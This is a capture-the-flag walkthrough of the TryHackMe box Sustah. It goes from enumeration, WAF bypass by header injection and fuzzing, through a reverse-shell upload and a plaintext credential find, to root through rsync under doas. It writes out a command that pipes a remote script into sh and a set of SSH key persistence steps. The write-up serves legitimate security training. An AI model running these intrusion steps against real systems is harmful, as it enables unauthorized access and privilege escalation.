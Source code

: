 This is a write up for the box SUSTAH on https://tryhackme.com/

First i add sustah to my /etc/hosts:

sudo vim /etc/hosts 

[![https://imgur.com/9VQSlLv.png](https://imgur.com/9VQSlLv.png)](https://imgur.com/9VQSlLv.png)

## Enumeration

First we start with a quick nmap scan.

[![https://imgur.com/dFiZBh9.png](https://imgur.com/dFiZBh9.png)](https://imgur.com/dFiZBh9.png)

Our gobuster doesnt give us any endpoints so lets look further.

There we can see the http port 8085 lets check it out.

[![https://imgur.com/nVxVCVL.png](https://imgur.com/nVxVCVL.png)](https://imgur.com/nVxVCVL.png)

Lets go for another gobuster on this port..

[![https://imgur.com/NJ6qyr5.png](https://imgur.com/NJ6qyr5.png)](https://imgur.com/NJ6qyr5.png)

So far we are pretty clueless.

Lets take a closer look at the inputfield.

We could try to bruteforce the right number with a method called fuzzing.
For that we create a wordlist of a specific range of numbers and lets it try each of them:

The tool we are going to use for that is called ffuf:

https://github.com/ffuf/ffuf

If we recall the description of the box:

"The developers have added anti-cheat measures to their game. Are you able to defeat the restrictions to gain access to their internal CMS?"
We probably also have to bypass a WAF.

Lets look at header injection by portswiggger:
https://portswigger.net/web-security/host-header/exploiting

By injecting the header in this way we can make the server belive the requests are coming from itself and therefor are trustworthy.

[![https://imgur.com/UbV0Trm.png](https://imgur.com/UbV0Trm.png)](https://imgur.com/UbV0Trm.png)

Now we can create our wordlist, we could use a onlinetool but we should try to write as much aspossible on our own :)

[![https://imgur.com/wnPqXyh.png](https://imgur.com/wnPqXyh.png)](https://imgur.com/wnPqXyh.png)

Now we can start our fuzzer tool:

We have to specify the wordlist we created with our little script, the headers to bypass the WAF, what we want to FUZZ, and the url.
I also added -fs which is a filter for the size 1004 because that is the normal response we would get if we have the wrong number.

[![https://imgur.com/4dDk7Ec.png](https://imgur.com/4dDk7Ec.png)](https://imgur.com/4dDk7Ec.png)

After inserting the right number we get a PATH.
After playing arround i found a adming loginpage with default credentials.
There we can upload files. 
Lets try to upload a reverseshell and run a nc listener.

[![https://imgur.com/pm551w8.png](https://imgur.com/pm551w8.png)](https://imgur.com/pm551w8.png)

Seems to work now we activate it by finding its location and clicking on it. ( or curl it )

[![https://imgur.com/iNkmr2K.png](https://imgur.com/iNkmr2K.png)](https://imgur.com/iNkmr2K.png)

Yes, it worked ! We are in :)

[![https://imgur.com/9NrVN9h.png](https://imgur.com/9NrVN9h.png)](https://imgur.com/9NrVN9h.png)

After searching for a good amount of time i find a backupfile of /etc/passwd with the password of kiran written in plaintext:

[![https://imgur.com/BZ4Iov1.png](https://imgur.com/BZ4Iov1.png)](https://imgur.com/BZ4Iov1.png)

First thing to do after: 
su kiran

is to create ssh keys

mkdir .ssh
ssh-keygen
touch authorized_keys
cat id_rsa.pub > authorized_keys

Now we can ssh into kiran with the -i parameter and the id_rsa key.


## Privescalation

After not finding any obvious vulnerabilities i decided to run linpeas.
Set up a simple python webserver on your host:

python3 -m http.server 1337

( you have to download linpeas first https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS )

then on the target in the /tmp directory:

curl http://youriphere:1337/linpeas.sh | sh

This will execute linpeas automatically.

The first thing that catches my eye is this doas.conf file which says we can run rsync as root:

[![https://imgur.com/JwnI0fg.png](https://imgur.com/JwnI0fg.png)](https://imgur.com/JwnI0fg.png)

So i tried ( i went to GTFOBINS to find privesc for rsync ) :   -> https://gtfobins.github.io/gtfobins/rsync/

[![https://imgur.com/sukmjzY.png](https://imgur.com/sukmjzY.png)](https://imgur.com/sukmjzY.png)

We can't run sudo since we don't have the sudo password. 

But what is this doas anyway? 

It seems to be a replacement for sudo where we can run commands as another user!

[![https://imgur.com/AQGteuV.png](https://imgur.com/AQGteuV.png)](https://imgur.com/AQGteuV.png)

So lets try to run rsync as user root since we dont need a password!

[![https://imgur.com/R4uinio.png](https://imgur.com/R4uinio.png)](https://imgur.com/R4uinio.png)

<iframe src="https://giphy.com/embed/vmon3eAOp1WfK" width="480" height="357" frameBorder="0" class="giphy-embed" allowFullScreen></iframe><p><a href="https://giphy.com/gifs/celebration-excited-loki-vmon3eAOp1WfK">via GIPHY</a></p>





